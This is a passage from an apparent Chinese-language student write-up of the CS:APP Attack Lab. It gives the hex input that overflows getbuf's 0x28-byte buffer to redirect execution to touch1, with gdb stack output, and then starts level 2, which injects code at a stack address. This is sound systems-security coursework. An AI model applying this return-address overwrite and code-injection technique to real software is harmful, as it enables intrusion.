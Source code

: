 ![image-20240506185627087](./image/3,attack_lab(target)_image/image-20240506185627087.png)

查看getbuf()函数  其分配的栈大小为0x28  将其填满，再溢出8字节后修改了返回地址 将其设置为touch1的地址即可

答案如下：

```
00 00 00 00 00 00 00 00  
00 00 00 00 00 00 00 00    
00 00 00 00 00 00 00 00 
00 00 00 00 00 00 00 00
00 00 00 00 00 00 00 00 
c0 17 40 00 00 00 00 00  /* 00000000004017c0 touch1地址 */
```

修改后的栈区和返回地址如下：

```
(gdb) x/6gx $rsp
0x5561dc78:     0x0000000000000000      0x0000000000000000
0x5561dc88:     0x0000000000000000      0x0000000000000000
0x5561dc98:     0x0000000000000000      0x00000000004017c0
```

==注意到注入代码（即输入的字符串）是从栈顶（低地址）开始写入的；**返回地址修改时，要注意将地址反着填写**==

#### level2

```c
void touch2(unsigned val)
{
	vlevel = 2; /* Part of validation protocol */
	if (val == cookie) {
		printf("Touch2!: You called touch2(0x%.8x)\n", val);
		validate(2);
	} else {
		printf("Misfire: You called touch2(0x%.8x)\n", val);
		fail(2);
 	}
	 exit(0);
 }
```

要求执行到```printf("Touch2!: You called touch2(0x%.8x)\n", val);```

本题还是利用gets读取溢出 从而修改栈中返回地址 将该地址指向注入代码（0x5561dc78） 
